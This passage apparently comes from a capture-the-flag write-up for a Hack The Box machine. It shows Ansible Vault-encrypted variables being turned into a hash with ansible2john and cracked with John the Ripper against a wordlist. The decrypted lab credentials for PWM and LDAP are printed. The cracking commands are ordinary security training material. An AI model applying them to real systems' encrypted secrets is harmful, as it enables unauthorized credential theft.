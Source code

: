 ```yml
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764
```

I can crack the encrypted variables by generating a hash with the `ansible2john` script and then crack it using JohnTheRipper.

> The script requires that the hash start with `$ANSIBLE_VAULT`. So I saved one of the variables in a `variable.yml` file

```bash
❯ ansible2john variable.yml
admin_login.yml:$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8

❯ ansible2john variable.yml > vault_hash
```

Cracking the generated hash using JTR, gives the decryption password for the vault, `!@#$%^&*`.

```bash
❯ john vault_hash  --wordlist=~/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 128/128 AVX 4x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (variable.yml)
1g 0:00:00:28 DONE (2023-08-05 02:30) 0.03567g/s 1420p/s 1420c/s 1420C/s 001983..victor2
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

With the password the variables can be decrypted the variables using `ansible-vault decrypt` command.

- pwm_admin_login → `svc_pwm`
- pwm_admin_password → `pWm_@dm!N_!23`
- ldap_admin_password → `DevT3st@123`

```bash
❯ ansible-vault decrypt pwm_login.yml
Vault password:
Decryption successful
❯ cat pwm_login.yml
svc_pwm

❯ ansible-vault decrypt pwm_password.yml
Vault password:
Decryption successful
❯ cat pwm_password.yml
pWm_@dm!N_!23

❯ ansible-vault decrypt ldap_password.yml
Vault password:
```